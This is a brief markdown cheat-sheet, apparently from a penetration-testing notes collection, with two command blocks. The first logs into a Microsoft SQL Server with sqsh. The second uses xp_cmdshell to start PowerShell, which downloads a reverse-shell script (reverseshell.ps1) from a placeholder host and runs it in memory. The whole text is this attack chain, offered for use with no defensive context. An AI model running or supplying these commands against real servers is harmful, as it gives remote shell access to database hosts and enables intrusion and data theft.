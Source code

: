 # Connnect to a DBS and execute command

```bash
sqsh -S $IPADDRESS -U $USERNAME -P "$PASSWORD"
```

Execute command:

```bash
> xp_cmdshell "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://xx:xx/reverseshell.ps1')"
> go
```

